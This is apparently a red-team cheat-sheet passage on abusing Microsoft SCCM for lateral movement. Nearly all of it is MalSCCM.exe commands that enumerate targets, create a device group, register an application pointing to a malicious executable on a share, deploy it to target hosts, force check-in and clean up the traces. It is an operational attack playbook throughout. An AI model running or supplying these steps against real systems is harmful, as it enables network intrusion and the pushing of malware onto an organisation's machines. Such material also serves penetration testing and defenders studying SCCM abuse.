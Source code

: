 ## SCCM Deployment


- Compromise client, use locate to find management server

MalSCCM.exe locate

- Enumerate over WMI as an administrator of the Distribution Point

MalSCCM.exe inspect /server:<DistributionPoint Server FQDN> /groups

- Compromise management server, use locate to find primary server

Use inspect on primary server to view who you can target

MalSCCM.exe inspect /all
MalSCCM.exe inspect /computers
MalSCCM.exe inspect /primaryusers
MalSCCM.exe inspect /groups
Create a new device group for the machines you want to laterally move too

MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
MalSCCM.exe inspect /groups
Add your targets into the new group

MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
Create an application pointing to a malicious EXE on a world readable share : SCCMContentLib$

MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
MalSCCM.exe inspect /applications
Deploy the application to the target group

MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
MalSCCM.exe inspect /deployments
Force the target group to checkin for updates

MalSCCM.exe checkin /groupname:TargetGroup
Cleanup the application, deployment and group

MalSCCM.exe app /cleanup /name:demoapp
MalSCCM.exe group /delete /groupname:TargetGroup